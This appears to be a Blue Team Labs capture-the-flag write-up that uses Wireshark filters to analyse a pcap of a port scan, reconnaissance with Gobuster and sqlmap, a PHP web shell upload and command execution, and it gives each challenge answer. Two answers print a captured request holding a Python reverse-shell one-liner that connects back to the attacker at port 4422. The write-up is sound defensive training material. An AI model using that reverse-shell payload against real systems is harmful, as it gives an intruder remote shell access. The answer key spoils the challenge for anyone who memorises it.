 #### Network Analysis – WebShell

#### Challenge Submission

> pcap File ->  BTLOPortScan.pcap

Using Wireshark, 

#### Questions

##### 1) What is the IP responsible for conducting the port scan activity?

We can see this question's answer 

```
Statistics-> Conversations
```

**Answer:** 10.251.96.4

##### 2) What is the port range scanned by the suspicious host? 

```
Statistics-> Conversations -> port
```

**Answer:** 1-1024

##### 3) What is the type of port scan conducted?

```
Filter =>  src.ip==10.251.96.4 
Immediately we see a load of SYN packets sent to each port for 10.251.96.5. This tells us that a TCP SYN scan was conducted.
```

**Answer:** TCP SYN

##### 4) Two more tools were used to perform reconnaissance against open ports, what were they?

```
Filter => ip.dst == 10.251.96.5 && http.user_agent
_ View in User-Agent: 
```

**Answer:** Gobuster 3.0.1, sqlmap 1.4.7

##### 5) What is the name of the php file through which the attacker uploaded a web shell? 

```
Filter => http.request.method==POST
- View in Referer
```

**Answer:** Editprofile.php

##### 6) What is the name of the web shell that the attacker uploaded? 

```
Filter => http.request.method==POST
- we can see the plaintext of the fileToUpload which is dbfunctions.php
```

**Answer:** Dbfunctions.php

##### 7) What is the parameter used in the web shell for executing commands?

```
Filter => http.request.method==POST
- Looking at the content of the identified dbfunctions.php
```

**Answer:** cmd

##### 8) What is the first command executed by the attacker? 

```
Filter => ip.src==10.251.96.4 && http.request.method==GET
```

**Answer:** id

##### 9) What is the type of shell connection the attacker obtains through command execution?

```
Filter => ip.src==10.251.96.4 && http.request.method==GET
The third command is clearly some python script. Follow the TCP Stream to view it fully.

GET /uploads/dbfunctions.php?cmd=python%20-c%20%27import%20socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((%2210.251.96.4%22,4422));os.dup2(s.fileno(),0);%20os.dup2(s.fileno(),1);%20os.dup2(s.fileno(),2);p=subprocess.call([%22/bin/sh%22,%22-i%22]);%27 HTTP/1.1
```

**Answer:** reverse

##### 10) What is the port he uses for the shell connection?

```
Filter => ip.src==10.251.96.4 && http.request.method==GET
The third command is clearly some python script. Follow the TCP Stream to view it fully.

GET /uploads/dbfunctions.php?cmd=python%20-c%20%27import%20socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((%2210.251.96.4%22,4422));os.dup2(s.fileno(),0);%20os.dup2(s.fileno(),1);%20os.dup2(s.fileno(),2);p=subprocess.call([%22/bin/sh%22,%22-i%22]);%27 HTTP/1.1
```

**Answer:** 4422

